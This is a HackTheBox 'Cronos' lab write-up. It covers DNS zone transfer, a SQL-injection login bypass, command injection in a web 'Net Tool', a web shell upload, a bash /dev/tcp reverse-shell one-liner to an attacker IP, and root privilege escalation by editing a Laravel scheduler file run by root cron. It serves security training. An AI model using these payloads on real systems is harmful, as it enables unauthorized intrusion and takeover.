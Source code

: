 ```yaml
---
title: "HackTheBox - WriteUp 8"
date: 2019-06-10T16:15:19+08:00
description: "HackTheBox 练手"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Cronos

## Before Start

nmap it, 22/tcp with openssh, 80/tcp with apache and 53/tcp weth ISC BIND.

80/tcp is the default page with apache, so we may need to modify our hosts.

# Attack

## DNS Enumeration

```bash
$ dig axfr @10.10.10.13 cronos.htb
; <<>> DiG 9.14.2 <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 613 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: 一 6月 10 16:20:51 CST 2019
;; XFR size: 7 records (messages 1, bytes 203)
```

After you get those records, just add them to your hosts.

## Access via web

At root domain, you just know it's a Laravel PHP Site.

At login domain, there's a login form. Check the source code, found nothing.

So there's must be a SQL Injection. Use username with SQL injection code `admin' -- -`. You logged in.

## Grab the packet

After you logged in, you get a command line page named "Net Tool", check the request it post. You will find it containes two parameters, `command` and `host`.

After you try, you will find these params has no blacklist. So use whatever you want.

We found a normal user called `noulis`, `command=cat&host=/home/noulis/user.txt`, Get User.

## Root

Fire up AntSword, and generate a shell then upload.

Then use `bash -c 'bash -i &>/dev/tcp/10.10.16.37/48484 0<&1'` to get a reverse shell.

After upload it, run LinEnum. You found a crontab running by root:

```bash
$ find -name artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
$ crontab -l
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

Let's check the source code, The artisan will run the code in: `/var/www/laravel/app/Console/Kernel.php`, Next, just modify this file, and do whatever you want.

```php
    protected function schedule(Schedule $schedule)
    {
        // $schedule->command('inspire')
        //          ->hourly();
        $schedule->exec('cp /root/root.txt /tmp/y2y3g.txt')->everyMinute();
        $schedule->exec('chmod 777 /tmp/y2y3g.txt')->everyMinute();
    }
```

(END)
